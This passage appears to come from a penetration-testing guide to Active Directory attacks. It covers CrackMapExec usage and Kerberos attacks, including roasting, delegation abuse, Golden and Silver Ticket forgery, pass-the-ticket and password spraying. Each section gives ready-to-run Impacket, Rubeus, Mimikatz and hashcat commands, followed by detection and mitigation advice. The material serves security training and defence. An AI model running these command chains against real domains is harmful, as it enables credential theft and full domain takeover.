# socks5 127.0.0.1 1080
# Run CME through a SOCKS proxy
proxychains crackmapexec smb 10.10.10.0/24
# Authenticate through the proxy
proxychains crackmapexec smb 10.10.10.50 -u jsmith -p 'Password1' -d CORP --shares
# Use with Sliver SOCKS proxy
# In Sliver: socks5 start
proxychains crackmapexec smb 10.10.10.0/24 -u jsmith -p 'Password1'Performance through SOCKS proxies is significantly slower. Reduce the target scope as much as possible and avoid scanning large subnets through tunnels.
5.6.3 Additional CME Functionality
CME provides several flags for controlling behaviour, output, and authentication.
# Use local authentication instead of domain
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' --local-auth
# Specify a custom SMB port
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' --port 4455
# Set connection timeout
crackmapexec smb 192.168.1.0/24 -u jsmith -p 'Password1' --timeout 5
# Verbose output
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' --verbose
# Export output to a file
crackmapexec smb 192.168.1.0/24 -u jsmith -p 'Password1' --shares --export shares.csv
# Log all output
crackmapexec smb 192.168.1.0/24 -u jsmith -p 'Password1' --log cme_output.log
# Set number of threads
crackmapexec smb 192.168.1.0/24 -u jsmith -p 'Password1' -t 20The --local-auth flag is particularly useful for spraying local administrator credentials across subnets where the built-in Administrator account shares a common password.
5.6.4 Mastering the CMEDB
CME maintains a local database that stores discovered hosts, credentials, and shares across engagements. The cmedb tool provides an interactive interface for querying and managing this data.
# Launch the CME database interface
cmedb
# For NetExec
nxcdbKey commands within the database shell:
# List workspaces
workspace list
# Create a new workspace
workspace create engagement_2024
# Switch workspace
workspace engagement_2024
# View stored credentials
creds
# View stored hosts
hosts
# View stored shares
shares
# Export credentials
export creds csv /tmp/creds.csv
# Search for specific credentials
creds -u administrator
# View hosts where a credential is admin
creds -id 1 --hostWorkspaces isolate data per engagement. Create a dedicated workspace for each assessment to prevent data leakage between projects. The database is stored at ~/.cme/workspaces/ (or ~/.nxc/workspaces/ for NetExec).
| Command | Description |
|---|---|
creds | List all stored credentials (passwords and hashes) |
creds add | Manually add a credential |
creds remove | Delete a stored credential |
hosts | List all discovered hosts |
shares | List all enumerated shares |
export | Export data to CSV or JSON |
workspace | Manage engagement workspaces |
Methodology
- Authenticate to MSSQL and execute queries or OS commands:
crackmapexec mssql 192.168.1.20 -u sa -p 'SQLAdmin123!' -q "SELECT name FROM sys.databases" crackmapexec mssql 192.168.1.20 -u sa -p 'SQLAdmin123!' -x "whoami" - Tunnel CME through a Sliver SOCKS proxy to reach internal networks:
proxychains crackmapexec smb 10.10.10.0/24 -u jsmith -p 'Password1' - Spray local admin credentials across the subnet with local auth:
crackmapexec smb 192.168.1.0/24 -u admin -p 'Password1' --local-auth - Create a dedicated CMEDB workspace for the engagement:
cmedb workspace create engagement_2024 workspace engagement_2024 - Review stored credentials and identify hosts where a credential has admin access:
creds creds -u administrator creds -id 1 --host - Export collected data for reporting:
export creds csv /tmp/creds.csv
6. Kerberos Attacks
Kerberos is the default authentication protocol in Active Directory environments. It replaces NTLM with a ticket-based system built on symmetric key cryptography and a trusted third party (the Key Distribution Center). Understanding its internals is essential for identifying and exploiting misconfigurations in AD.
6.1 Kerberos Protocol Overview
Kerberos authentication involves three parties: the client, the service, and the Key Distribution Center (KDC). The KDC runs on every Domain Controller and consists of two logical components: the Authentication Service (AS) and the Ticket Granting Service (TGS).

Each principal (user or service) shares a long-term secret key with the KDC. For users, this key derives from their password hash. For services, it derives from the service account password hash or the computer account password hash.
The authentication flow has two main exchanges:
| Step | Message | Description |
|---|---|---|
| 1 | AS-REQ | Client sends username and a timestamp encrypted with their password hash (pre-authentication) to the KDC |
| 2 | AS-REP | KDC validates the timestamp, returns a Ticket Granting Ticket (TGT) encrypted with the krbtgt account hash, plus a session key |
| 3 | TGS-REQ | Client presents the TGT and requests a service ticket for a specific SPN |
| 4 | TGS-REP | KDC issues a Service Ticket (TGS) encrypted with the target service account's password hash |
| 5 | AP-REQ | Client presents the service ticket to the target service for authentication |

The Privilege Attribute Certificate (PAC) is embedded in every Kerberos ticket. It contains the user's security identifier (SID), group memberships, and privileges. The target service reads the PAC to make authorization decisions. PAC validation against the KDC is optional and often skipped for performance, which enables several attack techniques.
Key Kerberos concepts:
- Service Principal Name (SPN): a unique identifier that ties a service instance to a logon account (e.g.,
MSSQLSvc/db01.corp.local:1433) - Pre-authentication: proves the client knows the password before the KDC issues a TGT. Disabling it enables AS-REP Roasting
- Ticket lifetime: TGTs default to 10 hours with a 7-day renewal window. Service tickets default to 10 hours
- Encryption types: RC4 (0x17, uses NTLM hash), AES128 (0x11), AES256 (0x12). Modern environments prefer AES
6.2 Roasting Attacks
AS-REPRoasting targets accounts with Kerberos pre-authentication disabled (DONT_REQUIRE_PREAUTH UAC flag). When pre-auth is off, any principal can request a TGT for the target account and receive an AS-REP containing data encrypted with the account's password hash, which can be cracked offline.
6.2.1 AS-REPRoasting
AS-REPRoasting targets accounts with Kerberos pre-authentication disabled (DONT_REQUIRE_PREAUTH UAC flag). When pre-auth is off, any principal can request a TGT for the target account and receive an AS-REP containing data encrypted with the account's password hash, which can be cracked offline.

Overview
In a normal AS-REQ, the client proves knowledge of the password by encrypting a timestamp. If pre-authentication is disabled, the KDC skips this validation and returns an AS-REP containing:
- A TGT (encrypted with the
krbtgthash, not useful for cracking) - An encrypted part containing the session key, encrypted with the target user's password-derived key
The encrypted part (etype 23 for RC4, or etype 17/18 for AES) can be extracted and cracked offline with hashcat or John the Ripper.
Enumeration
Find accounts with pre-authentication disabled:
# PowerView
Get-DomainUser -PreauthNotRequired | Select-Object samaccountname, userprincipalname
# AD PowerShell module
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth | Select-Object Name, SamAccountName# From Linux with ldapsearch
ldapsearch -x -H ldap://DC01.corp.local -D "user@corp.local" -w 'Password1' -b "DC=corp,DC=local" "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" sAMAccountNameExploitation from Linux
# Impacket GetNPUsers.py - request AS-REP for all vulnerable users
GetNPUsers.py corp.local/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt -dc-ip 10.10.10.1
# With credentials - auto-discover vulnerable accounts
GetNPUsers.py corp.local/user:Password1 -request -format hashcat -outputfile asrep_hashes.txt
# Without credentials (if null session is allowed)
GetNPUsers.py corp.local/ -no-pass -usersfile users.txt -format hashcatExploitation from Windows
# Rubeus - request AS-REP for all vulnerable accounts in the domain
.\Rubeus.exe asreproast /format:hashcat /outfile:asrep_hashes.txt
# Target a specific user
.\Rubeus.exe asreproast /user:svc_backup /format:hashcat
# Force RC4 encryption for easier cracking
.\Rubeus.exe asreproast /user:svc_backup /format:hashcat /etype:RC4Cracking
# Hashcat - AS-REP (RC4 / etype 23)
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt asrep_hashes.txtMitigation
- Ensure Kerberos pre-authentication is enabled for all accounts
- Audit accounts with the
DONT_REQUIRE_PREAUTHflag:Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} - Enforce strong, long passwords on any accounts that must have pre-auth disabled (rare legacy requirement)
- Monitor Event ID 4768 (TGT requested) with pre-auth type
0
6.2.2 Kerberoasting
Kerberoasting extracts service tickets (TGS) for accounts with registered SPNs. Since the service ticket is encrypted with the service account's password hash, it can be cracked offline. Any authenticated domain user can request a service ticket for any SPN, making this a low-privilege attack with potentially high impact.
How It Works
When a domain user sends a TGS-REQ for an SPN, the KDC returns a TGS-REP containing a service ticket encrypted with the target service account's secret key. The encryption type depends on the account's msDS-SupportedEncryptionTypes attribute:
- RC4 (0x17): uses the NTLM hash directly. Fast to crack
- AES256 (0x12): uses a key derived from the password with 4096 PBKDF2 iterations. Much slower to crack
Service accounts running under computer accounts are less interesting because their passwords are 120+ character random strings that are infeasible to crack. The primary targets are user accounts with SPNs set, especially those with weak passwords.
From Linux
# Impacket GetUserSPNs.py - enumerate and request all service tickets
GetUserSPNs.py corp.local/user:Password1 -dc-ip 10.10.10.1 -request -outputfile tgs_hashes.txt
# Request ticket for a specific SPN
GetUserSPNs.py corp.local/user:Password1 -dc-ip 10.10.10.1 -request-user svc_mssql
# Force RC4 encryption
GetUserSPNs.py corp.local/user:Password1 -dc-ip 10.10.10.1 -request -outputfile tgs_hashes.txtFrom Windows (Rubeus and PowerView)
# Rubeus - kerberoast all accounts with SPNs
.\Rubeus.exe kerberoast /outfile:tgs_hashes.txt
# Target a specific user
.\Rubeus.exe kerberoast /user:svc_mssql /outfile:tgs_hashes.txt
# Request RC4 encrypted tickets (downgrade)
.\Rubeus.exe kerberoast /tgtdeleg /outfile:tgs_hashes.txt
# PowerView - enumerate SPN accounts
Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalname
# Request ticket with PowerShell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/db01.corp.local:1433"
# Extract tickets from memory with Mimikatz
kerberos::list /exportTargeted Kerberoasting
If you have GenericAll, GenericWrite, or WriteProperty on a user account, you can set an SPN on the account, kerberoast it, then remove the SPN. This extends Kerberoasting to accounts that do not normally have an SPN.
# Set an SPN on the target account
Set-DomainObject -Identity targetuser -SET @{serviceprincipalname='nonexistent/YOURSPN'}
# Kerberoast the target
.\Rubeus.exe kerberoast /user:targetuser /outfile:targeted.txt
# Clean up - remove the SPN
Set-DomainObject -Identity targetuser -Clear serviceprincipalnameEncryption Downgrade
Rubeus can use the /tgtdeleg trick to request RC4-encrypted tickets even when the target account supports AES. This works by requesting a delegated TGT that is always RC4-encrypted, then using it to request service tickets. This only works from a domain-joined Windows host.
From Linux, GetUserSPNs.py does not support this trick; the encryption type depends on the target account's msDS-SupportedEncryptionTypes attribute.
Cracking
# Hashcat - TGS-REP (RC4 / etype 23)
hashcat -m 13100 tgs_hashes.txt /usr/share/wordlists/rockyou.txt
# Hashcat - TGS-REP (AES256 / etype 18)
hashcat -m 19700 tgs_hashes.txt /usr/share/wordlists/rockyou.txt
# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt tgs_hashes.txtDefense
- Use Group Managed Service Accounts (gMSA) which have 120-character auto-rotated passwords
- Enforce AES256 encryption for service accounts (
msDS-SupportedEncryptionTypes= 24) - Set long, complex passwords (25+ characters) on service accounts with SPNs
- Monitor Event ID 4769 (service ticket requested) with encryption type
0x17(RC4) - Regularly audit accounts with SPNs:
Get-ADUser -Filter {ServicePrincipalName -ne "$null"}
Methodology
- Enumerate accounts with pre-auth disabled (AS-REPRoast targets):
Get-DomainUser -PreauthNotRequired | Select-Object samaccountname, userprincipalname - AS-REPRoast from Linux with auto-discovery of vulnerable accounts:
GetNPUsers.py corp.local/user:Password1 -request -format hashcat -outputfile asrep_hashes.txt - AS-REPRoast from Windows with Rubeus:
.\Rubeus.exe asreproast /format:hashcat /outfile:asrep_hashes.txt - Crack AS-REP hashes (hashcat mode 18200):
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt - Enumerate accounts with SPNs (Kerberoast targets):
Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalname - Kerberoast from Linux and request all service tickets:
GetUserSPNs.py corp.local/user:Password1 -dc-ip 10.10.10.1 -request -outputfile tgs_hashes.txt - Kerberoast from Windows with RC4 downgrade for easier cracking:
.\Rubeus.exe kerberoast /tgtdeleg /outfile:tgs_hashes.txt - Crack TGS hashes (RC4 mode 13100, AES256 mode 19700):
hashcat -m 13100 tgs_hashes.txt /usr/share/wordlists/rockyou.txt
6.3 Delegation Attacks
Kerberos delegation allows a service to impersonate a user and access other services on their behalf. This is required for multi-tier applications where a front-end service needs to access a back-end database as the connecting user rather than as itself.
6.3.1 Kerberos Delegation
Kerberos delegation allows a service to impersonate a user and access other services on their behalf. This is required for multi-tier applications where a front-end service needs to access a back-end database as the connecting user rather than as itself.
Three types of delegation exist in Active Directory:
| Type | Introduced | Configuration | Risk Level |
|---|---|---|---|
| Unconstrained | Windows 2000 | Account-level flag in AD | High: can impersonate any user to any service |
| Constrained | Windows Server 2003 | SPN allowlist via msDS-AllowedToDelegateTo | Medium: restricted to specified SPNs (but alternative service name abuse is possible) |
| Resource-Based Constrained (RBCD) | Windows Server 2012 | Target service controls who can delegate via msDS-AllowedToActOnBehalfOfOtherIdentity | Medium: controlled by the resource, not the delegating account |
6.3.2 Unconstrained Delegation
When a service is configured for unconstrained delegation, any user that authenticates to it will have their TGT cached in the service's LSASS memory. The service can then use that TGT to impersonate the user to any other service in the domain. If a Domain Admin authenticates to a server with unconstrained delegation, their TGT is stored in memory and can be extracted.

How It Works
The TRUSTED_FOR_DELEGATION flag (UAC value 0x80000) is set on the computer or user account. When a user authenticates via Kerberos to a service on that machine, the KDC includes a copy of the user's TGT inside the service ticket (in the ok-as-delegate field). The service's LSASS process caches these forwarded TGTs.
Enumeration
# PowerView - find computers with unconstrained delegation (excluding DCs)
Get-DomainComputer -Unconstrained | Where-Object {$_.DistinguishedName -notlike "*Domain Controllers*"} | Select-Object dnshostname
# AD PowerShell module
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation | Select-Object Name, DNSHostName# From Linux with ldapsearch
ldapsearch -x -H ldap://DC01.corp.local -D "user@corp.local" -w 'Password1' -b "DC=corp,DC=local" "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dNSHostName
# With CrackMapExec
crackmapexec ldap DC01.corp.local -u user -p 'Password1' -M find-delegationExploitation
If you have local admin on a server with unconstrained delegation, extract cached TGTs:
# Rubeus - monitor for incoming TGTs
.\Rubeus.exe monitor /interval:5 /nowrap
# Rubeus - dump all cached tickets
.\Rubeus.exe triage
.\Rubeus.exe dump /nowrap
# Mimikatz - export tickets
sekurlsa::tickets /export
# Inject a captured TGT
.\Rubeus.exe ptt /ticket:doIFGj[...base64...]Printer Bug Coercion
The Printer Bug (MS-RPRN RpcRemoteFindFirstPrinterChangeNotification) forces a remote machine to authenticate back to an attacker-controlled host. If the attacker controls a server with unconstrained delegation, the coerced machine's TGT is captured.
# SpoolSample - coerce DC to authenticate to the unconstrained delegation server
.\SpoolSample.exe DC01.corp.local YOURSERVER.corp.local
# Monitor for the incoming TGT on YOURSERVER
.\Rubeus.exe monitor /interval:5 /filteruser:DC01$ /nowrap# From Linux (if you have a listener set up)
python3 printerbug.py corp.local/user:Password1@DC01.corp.local YOURSERVER.corp.local
# PetitPotam alternative (MS-EFSR)
python3 PetitPotam.py YOURSERVER.corp.local DC01.corp.local -u user -p 'Password1' -d corp.localMitigation
- Remove unconstrained delegation from all servers except Domain Controllers
- Add high-value accounts (Domain Admins, service accounts) to the Protected Users group, which prevents TGT delegation
- Enable the Account is sensitive and cannot be delegated flag on privileged accounts
- Monitor Event ID 4624 with Logon Type 3 to detect delegation-based authentications
6.3.3 Constrained Delegation
Constrained delegation restricts which services an account can delegate to. The allowed target services are listed in the msDS-AllowedToDelegateTo attribute. It uses two Kerberos protocol extensions: S4U2Self (Service for User to Self) and S4U2Proxy (Service for User to Proxy).

How It Works (S4U2Self and S4U2Proxy)
S4U2Self allows a service to obtain a service ticket to itself on behalf of any user, even if that user has not authenticated via Kerberos. The resulting ticket is marked as forwardable if the service is trusted for delegation.
S4U2Proxy takes the forwardable ticket from S4U2Self and exchanges it for a service ticket to the target service (specified in msDS-AllowedToDelegateTo) on behalf of the impersonated user.
Combined, these allow the delegating service to obtain a service ticket for any user to any service in its allowed list, without the user ever authenticating.
Enumeration
# PowerView - find accounts with constrained delegation
Get-DomainUser -TrustedToAuth | Select-Object samaccountname, msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth | Select-Object dnshostname, msds-allowedtodelegateto# From Linux
ldapsearch -x -H ldap://DC01.corp.local -D "user@corp.local" -w 'Password1' -b "DC=corp,DC=local" "(msDS-AllowedToDelegateTo=*)" sAMAccountName msDS-AllowedToDelegateTo
# Impacket findDelegation.py
findDelegation.py corp.local/user:Password1 -dc-ip 10.10.10.1Exploitation from Linux
# getST.py - request a service ticket as the target user
# If the constrained delegation account's password/hash is known:
getST.py -spn cifs/DC01.corp.local -impersonate Administrator corp.local/svc_sql:Password1 -dc-ip 10.10.10.1
# With an NTLM hash
getST.py -spn cifs/DC01.corp.local -impersonate Administrator -hashes :NTHASH corp.local/svc_sql -dc-ip 10.10.10.1
# Export and use the ticket
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass corp.local/Administrator@DC01.corp.localExploitation from Windows
# Rubeus - request TGT for the constrained delegation account, then S4U
.\Rubeus.exe asktgt /user:svc_sql /password:Password1 /nowrap
# Perform S4U2Self and S4U2Proxy
.\Rubeus.exe s4u /ticket:doIFGj[...] /impersonateuser:Administrator /msdsspn:cifs/DC01.corp.local /ptt
# Or in one step with credentials
.\Rubeus.exe s4u /user:svc_sql /rc4:NTHASH /impersonateuser:Administrator /msdsspn:cifs/DC01.corp.local /pttAlternative Service Abuse
The service name in the ticket is not validated by the target server. If constrained delegation allows cifs/DC01.corp.local, you can change the service class to ldap, http, host, or any other service running on that same host. This is known as alternative service name abuse.
# Rubeus - request ticket for LDAP instead of CIFS (for DCSync)
.\Rubeus.exe s4u /user:svc_sql /rc4:NTHASH /impersonateuser:Administrator /msdsspn:cifs/DC01.corp.local /altservice:ldap /ptt# getST.py with alternative service
getST.py -spn cifs/DC01.corp.local -impersonate Administrator -altservice ldap corp.local/svc_sql:Password1 -dc-ip 10.10.10.1Mitigation
- Minimize the use of constrained delegation; prefer RBCD where possible
- Protect the credentials of constrained delegation accounts with strong passwords
- Add privileged accounts to the Protected Users group (prevents impersonation via S4U2Self)
- Set the Account is sensitive and cannot be delegated flag on high-value accounts
- Audit the
msDS-AllowedToDelegateToattribute regularly
6.3.4 Resource-Based Constrained Delegation (RBCD)
RBCD inverts the delegation model. Instead of the delegating account specifying which services it can delegate to, the target resource specifies which accounts can delegate to it via the msDS-AllowedToActOnBehalfOfOtherIdentity attribute. This attribute can be modified by anyone with write access to the computer object.
How It Works
RBCD uses the same S4U2Self and S4U2Proxy extensions. The key difference: S4U2Proxy checks the msDS-AllowedToActOnBehalfOfOtherIdentity attribute on the target instead of msDS-AllowedToDelegateTo on the source. This means any account with write access to a computer object (such as the machine account's creator or an account with GenericWrite) can configure RBCD.
Prerequisites
- Write access to the target computer's
msDS-AllowedToActOnBehalfOfOtherIdentityattribute - A computer account (or account with an SPN) that you control. By default, any domain user can create up to 10 machine accounts (
MachineAccountQuota)
# Check MachineAccountQuota
crackmapexec ldap DC01.corp.local -u user -p 'Password1' -M maq
# Create a machine account with Impacket
addcomputer.py -computer-name 'FAKE01$' -computer-pass 'FakePass123' -dc-ip 10.10.10.1 corp.local/user:Password1Exploitation from Linux
# Step 1: Create a computer account (if needed)
addcomputer.py -computer-name 'FAKE01$' -computer-pass 'FakePass123' corp.local/user:Password1 -dc-ip 10.10.10.1
# Step 2: Set RBCD on the target computer
rbcd.py -delegate-from 'FAKE01$' -delegate-to 'TARGET$' -action write corp.local/user:Password1 -dc-ip 10.10.10.1
# Step 3: Request a service ticket via S4U
getST.py -spn cifs/TARGET.corp.local -impersonate Administrator -dc-ip 10.10.10.1 corp.local/'FAKE01$':'FakePass123'
# Step 4: Use the ticket
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass corp.local/Administrator@TARGET.corp.localExploitation from Windows
# Create a machine account with PowerMad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString 'FakePass123' -AsPlainText -Force)
# Set RBCD with PowerView
$sid = Get-DomainComputer FAKE01 -Properties objectsid | Select-Object -Expand objectsid
$sd = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$sid)"
$sdBytes = New-Object byte[] ($sd.BinaryLength)
$sd.GetBinaryForm($sdBytes, 0)
Set-DomainObject TARGET$ -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$sdBytes}
# Request ticket with Rubeus
.\Rubeus.exe s4u /user:FAKE01$ /rc4:NTHASH /impersonateuser:Administrator /msdsspn:cifs/TARGET.corp.local /pttDetection
- Monitor modifications to
msDS-AllowedToActOnBehalfOfOtherIdentity(Event ID 5136, Directory Service Changes audit) - Monitor new computer account creation (Event ID 4741)
- Audit
MachineAccountQuota; consider setting it to 0 - Review S4U2Proxy requests in Event ID 4769
Methodology
- Enumerate all delegation types across the domain:
findDelegation.py corp.local/user:Password1 -dc-ip 10.10.10.1 - Find unconstrained delegation hosts (excluding DCs):
Get-DomainComputer -Unconstrained | Where-Object {$_.DistinguishedName -notlike "*Domain Controllers*"} | Select-Object dnshostname - Coerce DC authentication to the unconstrained host and capture the TGT:
.\SpoolSample.exe DC01.corp.local YOURSERVER.corp.local .\Rubeus.exe monitor /interval:5 /filteruser:DC01$ /nowrap - Exploit constrained delegation via S4U chain from Linux:
getST.py -spn cifs/DC01.corp.local -impersonate Administrator corp.local/svc_sql:Password1 -dc-ip 10.10.10.1 export KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass corp.local/Administrator@DC01.corp.local - Abuse alternative service name to pivot from CIFS to LDAP (for DCSync):
getST.py -spn cifs/DC01.corp.local -impersonate Administrator -altservice ldap corp.local/svc_sql:Password1 -dc-ip 10.10.10.1 - RBCD: create a machine account, set delegation, and request a ticket:
addcomputer.py -computer-name 'FAKE01$' -computer-pass 'FakePass123' corp.local/user:Password1 -dc-ip 10.10.10.1 rbcd.py -delegate-from 'FAKE01$' -delegate-to 'TARGET$' -action write corp.local/user:Password1 -dc-ip 10.10.10.1 getST.py -spn cifs/TARGET.corp.local -impersonate Administrator -dc-ip 10.10.10.1 corp.local/'FAKE01$':'FakePass123' - Inject the captured or forged ticket and access the target:
export KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass corp.local/Administrator@TARGET.corp.local
6.4 Ticket Forging Attacks
A Golden Ticket is a forged TGT created using the krbtgt account's password hash. Since all TGTs in the domain are encrypted with this key, a valid Golden Ticket grants unrestricted access to any resource in the domain. Obtaining the krbtgt hash requires Domain Admin privileges (or equivalent), so this is a persistence and post-compromise technique.
6.4.1 Golden Ticket
A Golden Ticket is a forged TGT created using the krbtgt account's password hash. Since all TGTs in the domain are encrypted with this key, a valid Golden Ticket grants unrestricted access to any resource in the domain. Obtaining the krbtgt hash requires Domain Admin privileges (or equivalent), so this is a persistence and post-compromise technique.
How It Works
The KDC trusts any TGT that can be decrypted with the krbtgt key. A Golden Ticket forges a TGT with arbitrary PAC contents: any username, any group memberships, any SID. The KDC does not validate whether the user actually exists or belongs to the claimed groups.
Required information:
- Domain SID (e.g.,
S-1-5-21-3263068140-2042698922-2891547269) - Domain FQDN (e.g.,
corp.local) - krbtgt NTLM hash (or AES256 key)
- Username to impersonate (can be any string, even a non-existent user)
Creating Golden Tickets (Mimikatz)
# First obtain the krbtgt hash via DCSync
lsadump::dcsync /domain:corp.local /user:krbtgt
# Create the Golden Ticket
kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-3263068140-2042698922-2891547269 /krbtgt:NTHASH /ptt
# With AES256 key for better OPSEC
kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-3263068140-2042698922-2891547269 /aes256:AES256KEY /ptt
# Verify
klist
dir \\DC01.corp.local\C$Creating Golden Tickets (Impacket)
# Impacket ticketer
ticketer.py -nthash NTHASH -domain-sid S-1-5-21-3263068140-2042698922-2891547269 -domain corp.local Administrator
# With AES key
ticketer.py -aesKey AES256KEY -domain-sid S-1-5-21-3263068140-2042698922-2891547269 -domain corp.local Administrator
# Use the ticket
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass corp.local/Administrator@DC01.corp.localDetection
- Golden Tickets bypass the KDC for TGT issuance, so there is no Event ID 4768 (TGT request) for the forged ticket
- Monitor for TGS-REQ (Event ID 4769) where the client is unknown or the ticket lifetime exceeds policy
- Rotate the
krbtgtpassword twice to invalidate all existing Golden Tickets (the KDC keeps two password versions) - Compare TGT encryption type with domain policy; forged tickets may use a different etype
- Microsoft Defender for Identity can detect Golden Ticket usage through PAC anomaly analysis
6.4.2 Silver Ticket
A Silver Ticket is a forged service ticket (TGS) created using a service account's password hash. Unlike a Golden Ticket, it never touches the KDC for the target service, making it stealthier. However, it only grants access to the specific service whose hash was used.
How It Works
The service ticket is encrypted with the target service account's secret key. If you know this key (NTLM hash or AES key), you can forge a ticket with arbitrary PAC contents. The target service decrypts the ticket and trusts the PAC without validating it against the KDC (PAC validation is optional and usually disabled).
Creating Silver Tickets
# Mimikatz - forge a Silver Ticket for CIFS on DC01
kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-3263068140-2042698922-2891547269 /target:DC01.corp.local /service:cifs /rc4:SERVICE_NTLM_HASH /ptt# Impacket ticketer - Silver Ticket
ticketer.py -nthash SERVICE_NTLM_HASH -domain-sid S-1-5-21-3263068140-2042698922-2891547269 -domain corp.local -spn cifs/DC01.corp.local Administrator
export KRB5CCNAME=Administrator.ccache
smbclient.py -k -no-pass corp.local/Administrator@DC01.corp.localService-Specific Examples
| Service | SPN | Use Case |
|---|---|---|
| CIFS | cifs/host.domain.local | File share access, PsExec |
| LDAP | ldap/DC01.domain.local | DCSync (directory replication) |
| HOST | host/host.domain.local | WMI, scheduled tasks, PSRemoting |
| HTTP | http/host.domain.local | Web services, WinRM |
| MSSQL | MSSQLSvc/host.domain.local:1433 | Database access |
Detection
- Silver Tickets generate no Event ID 4769 (TGS request) on the DC since the KDC is not contacted
- Event ID 4624 on the target host shows authentication from a user whose ticket was never issued by the KDC
- Enable PAC validation on critical services (
ValidateKdcPacSignatureregistry key) - Rotate service account passwords regularly
6.4.3 Pass-the-Ticket (PtT)
Pass-the-Ticket uses a stolen Kerberos ticket (TGT or TGS) to authenticate without knowing the user's password. Tickets can be extracted from LSASS memory, exported from the current session, or obtained through other attacks (AS-REPRoasting, Kerberoasting, delegation abuse).
# Rubeus - dump all tickets from the current logon session
.\Rubeus.exe dump /nowrap
# Import a ticket into the current session
.\Rubeus.exe ptt /ticket:doIFGj[...base64...]
# Mimikatz - export all tickets
sekurlsa::tickets /export
# Mimikatz - import a ticket
kerberos::ptt ticket.kirbi# From Linux - convert between formats
ticketConverter.py ticket.kirbi ticket.ccache
ticketConverter.py ticket.ccache ticket.kirbi
# Use a ccache ticket
export KRB5CCNAME=ticket.ccache
psexec.py -k -no-pass corp.local/Administrator@DC01.corp.localMethodology
- Extract the krbtgt hash via DCSync (requires DA or replication rights):
lsadump::dcsync /domain:corp.local /user:krbtgt - Forge a Golden Ticket with Mimikatz and inject into the session:
kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-3263068140-2042698922-2891547269 /krbtgt:NTHASH /ptt - Forge a Golden Ticket from Linux with Impacket:
ticketer.py -nthash NTHASH -domain-sid S-1-5-21-3263068140-2042698922-2891547269 -domain corp.local Administrator export KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass corp.local/Administrator@DC01.corp.local - Forge a Silver Ticket for a specific service (e.g., CIFS):
ticketer.py -nthash SERVICE_NTLM_HASH -domain-sid S-1-5-21-3263068140-2042698922-2891547269 -domain corp.local -spn cifs/DC01.corp.local Administrator - Forge a Silver Ticket from Windows with Mimikatz:
kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-3263068140-2042698922-2891547269 /target:DC01.corp.local /service:cifs /rc4:SERVICE_NTLM_HASH /ptt - Pass-the-Ticket: extract tickets from memory and inject into a new session:
.\Rubeus.exe dump /nowrap .\Rubeus.exe ptt /ticket:doIFGj[...base64...] - Convert ticket formats between Windows and Linux:
ticketConverter.py ticket.kirbi ticket.ccache export KRB5CCNAME=ticket.ccache psexec.py -k -no-pass corp.local/Administrator@DC01.corp.local
6.5 Enumeration and Hardening
Kerberos pre-authentication responses reveal whether a username exists in the domain. This enables username enumeration and password spraying without generating Windows logon events (Event ID 4625) when spraying via Kerberos rather than NTLM.
6.5.1 Account Enumeration and Password Spraying with Kerberos
Kerberos pre-authentication responses reveal whether a username exists in the domain. This enables username enumeration and password spraying without generating Windows logon events (Event ID 4625) when spraying via Kerberos rather than NTLM.
# Kerbrute - username enumeration
kerbrute userenum --dc DC01.corp.local -d corp.local userlist.txt
# Kerbrute - password spraying
kerbrute passwordspray --dc DC01.corp.local -d corp.local userlist.txt 'Welcome2024!'
# Kerbrute - brute force a single user
kerbrute bruteuser --dc DC01.corp.local -d corp.local passwords.txt jsmith6.5.2 Detection
Key Windows Event IDs for detecting Kerberos attacks:
| Event ID | Description | Attack Detected |
|---|---|---|
| 4768 | TGT requested (AS-REQ) | AS-REPRoasting (pre-auth type 0), brute force |
| 4769 | Service ticket requested (TGS-REQ) | Kerberoasting (etype 0x17), constrained delegation abuse |
| 4770 | Service ticket renewed | Ticket reuse, long-lived access |
| 4771 | Kerberos pre-auth failed | Password spraying via Kerberos |
| 4624 | Logon success | Pass-the-Ticket, Silver Ticket (logon type 3) |
Anomalies to watch for:
- High volume of 4769 events with RC4 encryption from a single source
- 4769 events for SPNs that rarely receive requests
- TGT usage without a corresponding 4768 event (Golden Ticket)
- Service ticket usage without a corresponding 4769 event (Silver Ticket)
- Tickets with abnormal lifetimes or encryption types
6.5.3 Hardening and Mitigation Summary
| Attack | Key Mitigations |
|---|---|
| AS-REPRoasting | Enable pre-auth on all accounts; strong passwords; monitor Event ID 4768 |
| Kerberoasting | Use gMSAs; enforce AES; 25+ char passwords on SPN accounts; monitor etype 0x17 in 4769 |
| Unconstrained Delegation | Remove from non-DCs; Protected Users group; sensitive flag on privileged accounts |
